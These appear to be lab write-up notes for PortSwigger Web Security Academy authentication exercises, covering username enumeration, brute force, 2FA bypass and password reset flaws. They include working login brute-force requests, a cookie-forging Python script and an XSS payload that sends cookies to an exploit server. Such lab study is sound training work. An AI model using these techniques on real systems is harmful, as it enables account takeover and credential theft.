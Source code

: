 ## What is the difference between authentication and authorization?

Authentication is the process of verifying that a user is who they claim to be. Authorization involves verifying whether a user is allowed to do something.

For example, authentication determines whether someone attempting to access a website with the username Carlos123 really is the same person who created the account.

Once Carlos123 is authenticated, their permissions determine what they are authorized to do. For example, they may be authorized to access personal information about other users, or perform actions such as deleting another user's account.

### Lab: Username enumeration via different responses

This lab is vulnerable to username enumeration and password brute-force attacks. 

To solve the lab, enumerate a valid username, brute-force this user's password, then access their account page. 
```
curl -X POST "https://ID.web-security-academy.net/login" \
     -H "Cookie: session=..." \
     -H "Content-Type: application/x-www-form-urlencoded" \
     --data "username=albuquerque&password=biteme" \
```

### Lab: Username enumeration via subtly different responses

This lab is subtly vulnerable to username enumeration and password brute-force attacks. 

To solve the lab, enumerate a valid username, brute-force this user's password, then access their account page. 
```
curl -X POST "https://ID.web-security-academy.net/login" \
     -H "Cookie: session=..." \
     -H "Content-Type: application/x-www-form-urlencoded" \
     --data "username=arlington&password=1qaz2wsx" \
```
### Lab: Username enumeration via response timing

This lab is vulnerable to username enumeration using its response times. To solve the lab, enumerate a valid username, brute-force this user's password, then access their account page.
Your credentials: wiener:peter

- Continue experimenting with usernames and passwords. Pay particular attention to the response times. Notice that when the username is invalid, the response time is roughly the same. However, when you enter a valid username (your own), the response time is increased depending on the length of the password you entered.

- Send this request to Burp Intruder and select Pitchfork attack from the attack type drop-down menu. Add the X-Forwarded-For header.

- Add payload positions for the X-Forwarded-For header and the username parameter. Set the password to a very long string of characters (about 100 characters should do it). 

```
POST /login HTTP/2
Host: 0af200310303f7ab805eb29e00af00c6.web-security-academy.net
Cookie: session=Qku3MPwbzG5qk6IxHKc20n9UHjNWvU3w
X-Forwarded-For: §ipv4§

username=§username§&password=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```
### Lab: Broken brute-force protection, IP block

This lab is vulnerable due to a logic flaw in its password brute-force protection. To solve the lab, brute-force the victim's password, then log in and access their account page.

Your credentials: wiener:peter
Victim's username: carlos 

Create text file for rbute password from given file:

`$ for i in {1..100}; do echo "carlos"; echo "carlos"; echo "wiener"; done > labsolveusername.txt`

`$ awk '{print $0} NR % 2 == 0 {print "peter"}' portswigger.password > labsolvepassword.txt`



```
POST /login HTTP/2
Host: ID.web-security-academy.net
Cookie: session=...

username=§wiener§&password=§peter§
```
### Lab: Username enumeration via account lock


This lab is vulnerable to username enumeration. It uses account locking, but this contains a logic flaw. To solve the lab, enumerate a valid username, brute-force this user's password, then access their account page.

### Lab: 2FA simple bypass

This lab's two-factor authentication can be bypassed. You have already obtained a valid username and password, but do not have access to the user's 2FA verification code. To solve the lab, access Carlos's account page.

```
GET /my-account?id=carlos HTTP/2
Host: ID.web-security-academy.net
Cookie: session=...
```
### Lab: 2FA broken logic

This lab's two-factor authentication is vulnerable due to its flawed logic. To solve the lab, access Carlos's account page.

You also have access to the email server to receive your 2FA verification code.

Create the codelist
`seq -w 0001 9999 > numbers`

### Lab: Brute-forcing a stay-logged-in cookie

This lab allows users to stay logged in even after they close their browser session. The cookie used to provide this functionality is vulnerable to brute-forcing.

To solve the lab, brute-force Carlos's cookie to gain access to his My account page.

-    Your credentials: wiener:peter
-    Victim's username: carlos



Examine the cookie and notice that it is Base64-encoded. 

Its decoded value is `wiener:51dc30ddc473d43a6011e9ebba6ca770`. Study the length and character set of this string and notice that it could be an MD5 hash. Given that the plaintext is your username, you can make an educated guess that this may be a hash of your password. Hash your password using MD5 to confirm that this is the case. We now know that the cookie is constructed as follows:

`base64(username+':'+md5HashOfPassword)`

The script to generate the txt file:
```python
import hashlib
import base64

username = "carlos"
input_file = "password.txt" 
output_file = "base64.md5.txt"

with open(input_file, "r") as infile, open(output_file, "w") as outfile:
    for line in infile:
        password = line.strip()
        md5_hash = hashlib.md5(password.encode()).hexdigest()
        combined = f"{username}:{md5_hash}"
        base64_encoded = base64.b64encode(combined.encode()).decode()
        outfile.write(base64_encoded + "\n")
```
### Lab: Offline password cracking


This lab stores the user's password hash in a cookie. The lab also contains an XSS vulnerability in the comment functionality. To solve the lab, obtain Carlos's stay-logged-in cookie and use it to crack his password. Then, log in as carlos and delete his account from the "My account" page.

XSS payload to get the cookie:
```
<script>document.location='//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie</script>
```
```
POST /my-account/delete HTTP/2
Host: ID.web-security-academy.net
Cookie: secret=...; stay-logged-in=...; session=...
```

### Lab: Password reset broken logic


This lab's password reset functionality is vulnerable. To solve the lab, reset Carlos's password then log in and access his "My account" page.

```
POST /forgot-password?temp-forgot-password-token=... HTTP/2
Host: ID.web-security-academy.net
Cookie: session=...


temp-forgot-password-token=...&username=carlos&new-password-1=a&new-password-2=a
```
